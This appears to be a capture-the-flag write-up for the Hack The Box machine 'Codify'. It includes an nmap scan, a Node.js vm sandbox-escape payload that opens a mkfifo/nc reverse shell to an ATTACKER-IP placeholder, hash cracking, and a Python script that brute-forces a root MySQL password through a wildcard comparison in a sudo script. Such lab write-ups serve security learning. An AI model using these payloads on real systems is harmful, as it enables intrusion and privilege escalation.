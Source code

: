 # **Codify**

***
![](https://miro.medium.com/v2/resize:fit:1400/1*-QJ-5jvRu70eWMRuKoluHw.png)

## **Difficulty = Easy**

***
Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Mon Nov  6 01:25:11 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.129.158.172
Increasing send delay for 10.129.158.172 from 0 to 5 due to 217 out of 542 dropped probes since last increase.
Increasing send delay for 10.129.158.172 from 5 to 10 due to 203 out of 507 dropped probes since last increase.
Warning: 10.129.158.172 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.158.172
Host is up (0.27s latency).
Not shown: 58108 closed tcp ports (conn-refused), 7424 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: POST
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:28:23 2023 -- 1 IP address (1 host up) scanned in 192.23 seconds
```


Navigating to port `80/HTTP` we have this


![](https://i.imgur.com/VTspSKB.png)

We can therefore add **codify.htb** to our `/etc/hosts` file

![](https://i.imgur.com/rAXsWeY.png)


Navigating back to **codify.htb** we have this website


![](https://i.imgur.com/hb521yc.png)


Clicking **Try it now** we have this **Node.js** sandbox as said earlier in the default page, so i tried out several payloads, but good enough this [blog](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) helped me


![](https://i.imgur.com/KkuwgJv.png)


We can therefore get a reverse shell using the below payload (Make sure to replace **ATTACKER-IP** with your Ip address)


```bash
# on attacker machine
$ nc -lvnp 444

# on node.js editor

"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP 4444 >/tmp/f').toString()`);
console.log(xyz);
```


We got shell as user `svc`


![](https://i.imgur.com/5np8SqW.png)


Navigating to `/var/www/contact` we have a file called `tickets.db` that contains user **joshua** hash (For better view use `strings` instead of `cat`)


![](https://i.imgur.com/oCS7otG.png)


We can then save this hash into a `.TXT` file on our attacker machine and attempt to crack it


![](https://i.imgur.com/j00477M.png)

We can therefore switch user to **joshua** with the `su` command


![](https://i.imgur.com/yHCFGqW.png)


Running `sudo -l` we have permissions to run `` with sudo permissions


![](https://i.imgur.com/hMeg5hn.png)


Concatenating this script we can see what it does


![](https://i.imgur.com/UV9OY5m.png)

Basically it asks us for a user `root` **Mysql** password and if it is correct grants us read permissions to the `/var/backups/mysql` backup directory, After several testing i found out a particular python script by someone 🤣 that literally bruteforce the **Mysql** password


```python
import string  
import subprocess  
  
all_characters_and_numbers = list(string.ascii_letters + string.digits)  
  
password = ""  
found = False  
  
while not found:  
    for character in all_characters_and_numbers:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Which truly did gave us the password

![](https://i.imgur.com/RFkK7MC.png)


We can just switch user to `root` with this password instead of login in via **Mysql**

![](https://i.imgur.com/rh4PWdi.png)





<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




